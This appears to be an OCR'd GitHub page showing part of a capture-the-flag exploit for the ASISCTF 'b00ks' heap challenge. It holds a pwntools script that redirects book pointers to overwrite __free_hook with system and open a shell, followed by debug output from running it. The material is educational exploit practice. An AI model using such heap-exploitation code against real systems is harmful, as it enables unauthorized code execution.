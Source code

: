 ```python
log.info("Changing book2's pointers...")
time.sleep(1)
payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
p.recvuntil("> ")
time.sleep(1)
log.success("Book2's name and description's pointer has been changed!")
log.info("Book2's name --> /bin/sh")
log.info("Book2's desc --> free_hook")
log.info("Prepare to change book2's description, also known as __free_hook.")
time.sleep(1)
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
time.sleep(1)
log.success("Now __free_hook's address is system's address!")
log.info("We just need to free book2.")
time.sleep(1)
delete(2)
log.info("Ready in 3 seconds...")
time.sleep(3)
log.success("PWN!!")

p.interactive()
```

```powershell
ubuntu@ubuntu:~/Desktop$ python end.py
[DEBUG] PLT 0x21020 realloc
[DEBUG] PLT 0x21060 __tls_get_addr
[DEBUG] PLT 0x210a0 memalign
[DEBUG] PLT 0x210b0 _dl_exception_create
[DEBUG] PLT 0x210f0 __tunable_get_val
[DEBUG] PLT 0x211a0 _dl_find_dso_for_object
[DEBUG] PLT 0x211e0 calloc
[DEBUG] PLT 0x212c0 malloc
[DEBUG] PLT 0x212c8 free
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading program...
[+] Starting local process './b00ks' argv=['./b00ks'] : pid 7118
[+] Load success!
[DEBUG] Received 0x33 bytes:
    'Welcome to ASISCTF book library\n'
    'Enter author name: '
[DEBUG] Sent 0x21 bytes:
    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
[*] Off-BY-NULL!
[DEBUG] Received 0x6f bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x17 bytes:
```